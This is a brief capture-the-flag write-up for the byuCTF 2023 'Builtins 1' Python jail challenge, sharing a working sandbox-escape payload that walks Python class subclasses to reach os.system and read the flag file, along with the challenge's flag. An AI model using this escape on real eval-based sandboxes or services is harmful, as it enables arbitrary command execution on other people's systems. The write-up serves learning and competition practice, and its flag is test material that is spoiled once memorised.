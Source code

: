 # byuCTF 2023 - Builtins 1 (Jail)

__Description:__

>The Docker container running the jail uses

>Per usual, the flag is stored in ./flag.txt

There was the following challenge code:

__b1.py__

```python
print(eval(input("code> "), {"__builtins__": {}}, {"__builtins__": {}}))
```

With the following input I found out which python classes are all running in the system...

`''.__class__.__mro__[1].__subclasses__()`

...and got to see a long array with all classes.

Online I found out that it is probably possible to call `sys` from the class `<class 'codecs.StreamReaderWriter'>` and formed the following bypass:

`''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__["sys"].modules["os"].system("cat ./flag.txt")`

Flag: `byuctf{no_builtins?_no_problem}`
